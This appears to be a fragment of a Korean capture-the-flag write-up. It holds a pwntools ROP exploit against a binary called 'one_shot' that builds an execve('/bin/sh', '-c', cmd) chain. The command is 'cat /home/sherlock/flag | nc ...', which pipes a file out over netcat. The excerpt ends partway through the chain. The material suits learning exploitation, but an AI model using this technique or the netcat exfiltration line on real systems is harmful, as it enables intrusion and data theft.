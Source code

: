 이걸 이용해서 `buffer`에 "/bin/sh" 및 "-c", "nc IP PORT" 등을 쓰면 되고, 그 값을 원하는 주소에 복사하여 `exploit`에 활용할 수 있다.



```python
#!/usr/bin/env python
from pwn import *

conn = process("./one_shot")

check = 0x8a919ff0

alarm_plt = 0x400520
alarm_got = 0x601020
puts_plt = 0x400510

mov_eax = 0x004006f7 # mov eax, dword [rbp-0x0C] ; pop rbx ; pop rbp ; ret  ;  (1 found)
copy_rdi2rsi = 0x400684 # copies eax bytes from rdi to rsi
						# [rbp-0x20] and [rbp-0x1C] need to be equal (or null)

pop_rbp = 0x00400774 # pop rbp ; ret
pop_rdi = 0x00400843 # pop rdi ; ret  ;  (1 found)
pop_rsi_r15 = 0x400841 # pop rsi ; pop r15 ; ret

len_addr = 0x40070e # contains 0x234
trash_rbp = 0x601100 # random writable addr in a nulled area
copy_buffer_addr = 0x601600 # where our copied buffer will be

cmd = "cat /home/sherlock/flag | nc 127.0.0.1 1234"

### check pass
payload =  p32(check)
# execve("/bin/sh", )
payload += "/bin/sh\x00"
payload += "-c\x00"
payload += cmd
payload += "\x00"*10

#argv_address
argv_addr = copy_buffer_addr + len(payload)-4

# argv = ["/bin/sh", "-c", cmd, 0]
payload += p64(copy_buffer_addr) 	# "/bin/sh"
payload += p64(copy_buffer_addr+8) 	# "-c"
payload += p64(copy_buffer_addr+11) # cmd
payload += p64(0)					# NULL

# execve syscall num
execve_syscall_num_addr = copy_buffer_addr + len(payload)-4
payload += p64(59)
payload += "\x00"*(0x80-len(payload))

# now buffer is end and copy buffer
payload += p64(len_addr+0xc) # [rbp-0xc] is 0x234
payload += p64(mov_eax)  	 # eax = 0x234
payload += p64(0xdeadbeef)   # rbx
payload += p64(trash_rbp)   # rbp

payload += p64(pop_rsi_r15)	 # set rsi to new_buffer_address
payload += p64(copy_buffer_addr)
payload += p64(0xdeadbeef) 	 # r15
payload += p64(copy_rdi2rsi)
payload += p64(0xdeadbeef)  # rbx
payload += p64(trash_rbp)	# rbp

```